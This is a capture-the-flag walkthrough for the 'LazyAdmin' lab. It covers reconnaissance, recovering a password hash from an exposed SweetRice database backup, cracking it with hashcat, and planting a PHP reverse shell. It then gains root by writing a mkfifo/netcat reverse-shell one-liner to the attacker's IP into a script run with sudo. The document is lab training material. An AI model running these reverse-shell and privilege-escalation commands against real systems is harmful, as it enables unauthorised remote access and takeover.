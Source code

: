 # LazyAdmin

## :man\_mechanic: Lazy Admin

### **#1 What is the user flag?**

#### Step 1

```bash
sudo nmap 10.10.181.122
gobuster dir -u http://10.10.181.122/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 10-07-28.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-31 08-56-26.png>)

#### Step 2

```bash
searchsploit sweetrice
cat /usr/share/exploitdb/exploits/php/webapps/40718.txt
wget http://10.10.181.122/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
cat mysql_bakup_20191129023059-1.5.1.sql | grep --color passwd
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 10-16-13.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-31 09-15-01.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-31 09-17-40.png>)

#### Step 3

```bash
echo -n '42f749ade7f9e195bf475f37a44cafcb' > md5.txt
hashcat -a 0 -m 0 md5.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 10-22-33.png>)

#### Step 4

```bash
nc -nvlp 4444
```

```bash
# http://10.10.181.122/content/inc/ads/shell.php
find / -name user.txt 2>/dev/null
cat /home/itguy/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 10-25-44.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-31 10-30-29.png>)

### **#2 What is the root flag?**

```bash
sudo -l
cat /home/itguy/backup.pl
cat /etc/copy.sh 
ls -l /etc/copy.sh
echo -n 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.101.193 4445 >/tmp/f' > /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

```bash
nc -nvlp 4445
find / -name root.txt 2>/dev/null
cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 10-36-07.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-31 10-36-05.png>)

### ****:link: **Support Material**

{% embed url="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" %}
